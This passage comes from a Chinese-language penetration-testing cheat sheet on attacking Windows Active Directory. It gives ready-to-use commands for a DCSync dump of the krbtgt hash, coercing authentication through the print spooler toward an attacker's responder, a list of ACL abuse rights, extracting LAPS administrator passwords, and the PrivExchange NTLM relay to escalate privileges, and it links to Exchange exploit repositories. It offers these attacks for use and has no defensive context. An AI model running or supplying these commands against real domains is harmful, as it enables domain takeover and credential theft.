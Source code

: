 ## 5.基于资源的约束委派

## 6.dcsync

```
lsadump::dcsync /domain:htb.local /user:krbtgt # Administrators, Domain Admins, Enterprise Admins  组下的账户都行
```

## 7.打印机 SpoolService 漏洞利用

```
rpcdump.py <domain>/<user>:<password>@<domain_server> | grep MS-RPRN
printerbug.py '<domain>/<username>:<password>'@<Printer IP> <RESPONDERIP>
```

## 8.AD域ACL攻击(aclpwn.py)

```
GenericAll on User
GenericAll on Group
GenericAll / GenericWrite / Write on Computer
WriteProperty on Group
Self (Self-Membership) on Group
WriteProperty (Self-Membership)
ForceChangePassword
WriteOwner on Group
GenericWrite on User
WriteDACL + WriteOwner
```

## 9.获取LAPS管理员密码

```
Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize

foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```

## 10.privexchange漏洞

```
python privexchange.py -ah <attacker_host_or_ip> <exchange_host> -u <user> -d <domain> -p <password>

ntlmrelayx.py -t ldap://<dc_fqdn>--escalate-user <user>
```

##### Exchange的利用

- [**Exchange2domain**](https://github.com/Ridter/Exchange2domain)
- [**CVE-2018-8581**](https://github.com/WyAtu/CVE-2018-8581/)
- [**CVE-2019-1040**](https://github.com/Ridter/CVE-2019-1040)
- [**CVE-2020-0688**](https://github.com/Ridter/CVE-2020-0688)
- [**NtlmRelayToEWS**](https://github.com/Arno0x/NtlmRelayToEWS)
- [**ewsManage**](https://github.com/3gstudent/ewsManage)
- [**CVE-2021-26855**](https://github.com/h4x0r-dz/CVE-2021-26855)
- [**CVE-2021-28482**](https://gist.github.com/testanull/9ebbd6830f7a501e35e67f2fcaa57bda)
